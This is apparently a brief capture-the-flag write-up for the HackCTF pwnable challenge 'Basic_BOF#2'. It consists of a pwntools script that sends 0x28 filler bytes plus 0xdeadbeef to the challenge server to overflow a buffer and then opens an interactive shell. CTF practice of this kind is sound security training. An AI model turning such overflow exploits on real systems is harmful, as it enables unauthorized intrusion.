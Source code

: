 ```yaml
---
title: "[HackCtf] Basic_BOF#2"
date: 2020-06-30
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %} from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3000)

p.sendline("0"*0x28+p32(0xdeadbeef)) p.interactive() {% endhighlight %}
